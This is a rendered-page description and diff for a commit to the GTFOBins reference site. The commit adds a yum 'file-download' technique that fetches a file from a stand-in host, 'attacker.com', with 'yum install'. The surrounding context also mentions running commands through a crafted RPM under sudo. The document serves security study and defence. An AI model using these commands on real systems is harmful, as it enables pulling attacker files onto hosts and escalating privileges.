

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/yum.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 956 px from its top, so only the background shows below that.

Commit message:
Add file-download to yum

```diff
--- a/_gtfobins/yum.md
+++ b/_gtfobins/yum.md
@@ -1,5 +1,11 @@
 ---
 functions:
+  file-download:
+    - description: Fetch a remote file via HTTP GET request. The file on the remote host must have an extension of `.rpm`, the content does not have to be an RPM file. The file will be downloaded to a randomly created directory in `/var/tmp`, for example `/var/tmp/yum-root-cR0O4h/`.
+      code: |
+        RHOST=attacker.com
+        RFILE=file_to_get.rpm
+        yum install http://$RHOST/$RFILE
   sudo:
     - description: |
         It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
```
